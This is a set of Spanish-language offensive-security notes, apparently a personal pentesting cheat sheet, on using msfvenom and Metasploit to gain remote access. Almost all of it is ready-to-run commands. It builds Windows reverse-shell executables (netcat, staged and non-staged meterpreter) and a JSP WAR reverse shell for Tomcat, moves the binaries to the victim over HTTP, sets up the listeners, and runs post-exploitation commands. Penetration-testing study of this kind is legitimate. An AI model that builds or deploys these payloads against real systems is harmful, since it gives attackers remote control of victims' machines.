 ## Msfvenom ❮❯

Tags: #Msfvenom #Metasploit #ReverShell #Payloads #Netcat #Windows 

### Netcat
* Nos sirve para crear un binario malicioso, para después usar Metasploit y obtener la ReverShell para maquinas Windows 

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o shell.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```

Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP y en la maquina victima lo podemos descargar desde el navegador colocando la IP del servicio compartido

* Nos ponemos en escucha por Netcat:
```bash 
❯ rlwrap nc -nlvp 443
```
* Ejecutamos el binario que subimos a Windows y ganamos acceso


### Payload Staged 
* Nos sirve para crear un binario malicioso, para después usar Metasploit y obtener la ReverShell para maquinas Windows 

```bash
❯ msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o reverse.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```

Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP
Ahora en Metasploit hacemos lo siguiente:

* Para verificar la DB del **Metasploit**
```bash 
❯ msfdb run  # Actualiza la DB de Metasploit
```

* Dentro de Metasploit colocamos lo siguiente y así nos pondremos en escucha:
```Metasploit
❯ use exploit/multi/handler
❯ set payload windows/x64/meterpreter/reverse_tcp
❯ show options
❯ set LHOST 172.0.0.1
❯ set LPORT 443
❯ run
```

* Ejecutamos el binario que subimos a Windows

* Dentro de la maquina **Windows**
```bash
❯ getuid    # Nos muestra el usuario del servidor
❯ shell     # Obtenemos uns Shell en Metasploit para poder ejecutar comandos
```



### Payload Non-Staged
* Nos sirve para crear un binario malicioso, para después usar Metasploit y obtener la ReverShell para maquinas Windows 

```bash
❯ msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o reverse.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```
Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP
Ahora en Metasploit hacemos lo siguiente:

* Para verificar la DB del **Metasploit**
```bash 
❯ msfdb run  # Actualiza la DB de Metasploit
```

* Dentro de metasploit colocamos lo siguiente y asi nos pondremos en escucha:
```Metasploit
❯ use exploit/multi/handler
❯ set payload windows/x64/meterpreter_reverse_tcp
❯ show options
❯ set LHOST 172.0.0.1
❯ set LPORT 443
❯ run
```

* Ejecutamos el binario que subimos a Windows

* Dentro de la maquina **Windows**
```bash
❯ getuid    # Nos muestra el usuario del servidor
❯ shell     # Obtenemos uns Shell en Metasploit para poder ejecutar comandos
```


## Tomcat 

```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```